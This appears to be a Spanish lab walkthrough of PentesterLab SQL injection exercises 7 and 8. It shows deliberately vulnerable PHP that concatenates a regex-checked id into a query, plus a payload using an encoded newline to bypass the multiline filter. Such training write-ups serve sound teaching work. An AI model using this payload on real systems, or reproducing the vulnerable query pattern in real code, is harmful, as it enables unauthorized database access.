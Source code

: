 ## Ejercicio 7


Esta vez se comprueba tanto el inicio (^) como el final ($) del parámetro, pero la expresión regular contiene un modificador que permite múltiples líneas (/m).

Servidor:
```php
<?php

  require_once('../header.php');
  require_once('db.php');
    if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");    
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"];

    $result = mysql_query($sql);

    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```

Gracias a ésto podemos poner el entero en una línea para que el filtro lo de por válido... y en la siguiente línea (\n encodeado a %0a) añadir la inyección:

PAYLOAD:
```
http://pentesterlab/sqli/example7.php?id=2%0a or 1=1
```

## Ejercicio 8

En el ejercicio 8 tenemos que inyectar en una sentencia con 'order by'. Esto representa una dificultad añadida porque no podremos usar comillas simples o dobles ya que si las pusiéramos cogería el valor literal (order by 'id' ordenará literalmente por el nombre 'id' no por valor de la variable 'id').
